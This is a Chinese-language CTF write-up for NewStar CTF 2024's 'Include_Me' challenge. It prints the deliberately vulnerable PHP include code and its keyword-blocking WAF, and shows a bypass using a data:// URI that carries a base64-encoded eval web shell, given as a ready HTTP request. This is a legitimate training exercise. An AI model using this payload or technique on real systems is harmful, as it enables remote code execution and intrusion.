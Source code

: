 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Include_Me

打开题目 5s 后会自动跳转搜索 PHP 伪协议

![跳转结果](/assets/images/wp/2024/week3/include-me_1.png)

要防止跳转，使用 GET 传入 `iknow` 即可

题目源码如下

```php
<?php
highlight_file(__FILE__);
function waf() {
    if(preg_match("/<|\?|php|>|echo|filter|flag|system|file|%|&|=|`|eval/i",$_GET['me'])){
        die("兄弟你别包");
    };
}
if (isset($_GET['phpinfo'])) {
    phpinfo();
}

// 兄弟你知道了吗？
if (!isset($_GET['iknow'])) {
    header("Refresh: 5;url=https://cn.bing.com/search?q=php%E4%BC%AA%E5%8D%8F%E8%AE%AE");
}

waf();
include $_GET['me'];
echo "兄弟你好香";
?>
```

我们使用 GET 传入 `phpinfo` 后可验证远程文件包含漏洞的必要条件满足

![phpinfo](/assets/images/wp/2024/week3/include-me_2.png)

接着就是绕 waf，这里使用的是 data 协议加 base64 加密

```http
GET /?iknow=1&me=data:text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWzBdKT8+%2B HTTP/1.1
```

`<?php @eval($_POST[0])?>` 的 Base64 加密结果为 `PD9waHAgQGV2YWwoJF9QT1NUWzBdKT8+`，加号作转义

::: warning 注意

这里有几点需要注意：

- Base64 加密后的字符串不能带有 `=`，因为会被 waf，这时直接删掉结尾等号即可，后者在明文后面多加一些空格以使加密结果不带等号
- 若密文最后是 `+` 的话，我们在 GET 传参必须将其编码为 `%2B`，不然 `+` 会被视作空格

:::
